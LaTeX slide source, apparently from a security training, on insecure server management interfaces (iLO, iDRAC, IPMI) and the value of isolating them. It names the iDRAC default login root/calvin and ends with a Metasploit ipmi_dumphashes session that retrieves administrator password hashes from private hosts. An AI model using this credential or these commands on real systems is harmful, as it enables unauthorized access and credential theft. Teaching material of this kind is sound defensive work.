 \documentclass[Screen16to9,17pt]{foils}
\begin{document}
\vskip 2cm
\begin{list2}
\item At the time of testing in 2019 this was 10 year old software, probably full of security issues that will never be fixed
\end{list2}



In general we have lots of \emph{management interfaces}, only intended for administrators. We should do our best to keep them isolated on management VLANs and have a secure configuration.

Server hardware typically have KVM (Keyboard Video Mouse) interfaces:
\begin{list2}
\item Compaq/HP Integrated Lights-Out (ILO) Management
\item Dell Remote Access Controller (iDRAC) default user root/calvin
\item Generic servers like SuperMicro have Intelligent Platform Management Interface (IPMI)\\
\url{https://en.wikipedia.org/wiki/Intelligent_Platform_Management_Interface}
\end{list2}

Common problems found:
\begin{list2}
\item Default settings, default passwords -- often direct access to server administration
\item Not upgraded, firmware has known vulnerabilities
\end{list2}

I have seen this for many many years, and still see this in networks after 2020



Vulnerability IPMI RAKP Dump hash:
\begin{alltt}\footnotesize
Name Description
---- -----------
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run
[+] 172.16.10.205:623 - IPMI - Hash found: Administrator:ef4...c956bf6c9a9618a771c
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > setg RHOSTS 172.16.10.200
RHOSTS => 172.16.10.200
msf6 auxiliary(scanner/ipmi/ipmi_dumphashes) > run
[+] 172.16.10.200:623 - IPMI - Hash found: Administrator:1aa4314318a30600...585fa89609bd2a9
\end{alltt}
\end{document}
